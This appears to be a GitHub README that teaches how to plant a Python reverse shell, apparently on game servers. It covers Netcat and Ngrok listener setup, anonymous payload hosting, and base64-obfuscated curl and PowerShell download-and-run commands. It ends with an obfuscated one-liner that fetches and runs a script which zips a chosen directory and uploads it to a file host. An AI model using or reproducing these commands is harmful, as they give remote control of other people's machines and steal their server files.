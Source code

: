 # Python Reverse Shell Tutorial (Linux and Windows)
### UPDATE: I made a Windows batch script that does it all automatically, from installing Python, to compiling the code and uploading, it's all user-friendly: [0137b23d50.zip](https://catlitter.minoa.cat/api/view/0137b23d50.zip)
###

## On Your Own Computer
you will need [Python](https://www.python.org/downloads/), [Netcat](https://eternallybored.org/misc/netcat/netcat-win32-1.12.zip), & [Ngrok](https://ngrok.com)
1. **Get Netcat**  
   - For Windows: [Download Netcat](https://eternallybored.org/misc/netcat/netcat-win32-1.12.zip)  
   - For Linux or macOS: Find and install the appropriate files for your OS.

2. **Get Ngrok and Set Up**  
   - [Download and setup Ngrok](https://ngrok.com)

3. **Start Ngrok**  
`ngrok tcp 4444`


4. **Start Netcat**  
`nc -lvp 4444`


5. **Download and Edit Python File**
   - [Download the Python script n compiler](https://catlitter.minoa.cat/api/view/fafc8a7461.zip) and in rs.py edit the IP and port to be the Ngrok one.
   - (Must have python installed) run windows compile.bat and only if you have wsl setup you can run linux compile.bat and the files that show up are compilex executables.
   - Upload the compiled files to [anontransfer.com](https://anontransfer.com/)!
   - Once finished uploading goto the download url, click download, then go into your downlaod manager and copy the direct download link.

6. **Convert URL to Base64**
   - Use [base64encode.org](https://www.base64encode.org/) to convert the URL for whatever file to Base64.

## In Game (run under the shell command)
7. **Copy and Paste the Command into your Terminal**
   - While in, use the command below, replacing `{BASE64 GOES HERE}` with the Base64 link:
Linux:
`curl -O $(echo "{BASE64 GOES HERE}" | base64 --decode)`
###
Windows:
`powershell -Command "Invoke-WebRequest -Uri ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('{BASE64 GOES HERE}'))) -OutFile ([System.IO.Path]::GetFileName(([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('{BASE64 GOES HERE}')))))"`

###

8. **Run the File**
Linux:
`chmod +x {FILENAME}`
 `./{FILENAME}`
Windows:
`start {FILENAME}`
 - If there are errors, idk..


# more
## Linux mc server file stealer
```
bash -c 'curl -o steal.sh $(echo "aHR0cHM6Ly9jYXRsaXR0ZXIubWlub2EuY2F0L2FwaS92aWV3L2FkMGI1MTJhNzZiNTBjODhlY2VmLnNo" | base64 --decode) && chmod +x steal.sh && bash ./steal.sh && rm -- steal.sh'
```
*(downloads and runs [this script](https://catlitter.minoa.cat/api/view/ad0b512a76b50c88ecef.sh) that zips and uploads whatever dir you enter to gofile and gives you the link only on linux)*

